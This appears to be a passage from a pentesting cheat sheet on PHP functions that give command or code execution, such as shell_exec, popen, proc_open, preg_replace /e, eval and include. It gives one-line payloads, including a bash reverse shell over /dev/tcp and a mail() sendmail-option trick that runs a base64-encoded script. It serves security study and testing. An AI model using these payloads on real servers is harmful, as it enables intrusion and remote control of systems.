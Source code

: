 **shell\_exec** - Returns commands output

```bash
echo shell_exec("uname -a");
```

\`\` (backticks) - Same as shell\_exec()

```bash
echo `uname -a`
```

**popen** - Opens read or write pipe to process of a command

```bash
echo fread(popen("/bin/ls /", "r"), 4096);
```

**proc\_open** - Similar to popen() but greater degree of control

```bash
proc_close(proc_open("uname -a",array(),$something));
```

**preg\_replace**

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

**pcntl\_exec** - Executes a program (by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function)

```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```

**mail / mb\_send\_mail** - This function is used to send mails, but it can also be abused to inject arbitrary commands inside the `$options` parameter. This is because **php `mail` function** usually call `sendmail` binary inside the system and it allows you to **put extra options**. However, you won't be able to see the output of the executed command, so it's recommended to create shell script that writes the output to a file, execute it using mail, and print the output:

```bash
file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');
```

**dl** - This function can be used to dynamically load a PHP extension. This function won't be present always, so you should check if it's available before trying to exploit it. Read[ this page to learn how to exploit this function](disable\_functions-bypass-dl-function.md).

### PHP Code Execution

Apart from eval there are other ways to execute PHP code: include/require can be used for remote code execution in the form of Local File Include and Remote File Include vulnerabilities.\
**${\<php code>}** - If your input gets reflected in any PHP string, it will be executed.\
**eval()**\
**assert()** - identical to eval()\
**preg\_replace('/.\*/e',...)** - /e does an eval() on the match\
**create\_function()** - Create a function and use eval()\
**include()**\
**include\_once()**\
**require()**\
**require\_once()**\
**$\_GET\['func\_name']\($\_GET\['argument']);**\
**$func = new ReflectionFunction($\_GET\['func\_name']);**\
**$func->invoke();** or\
**$func->invokeArgs(array());**\
**serialize/unserialize**
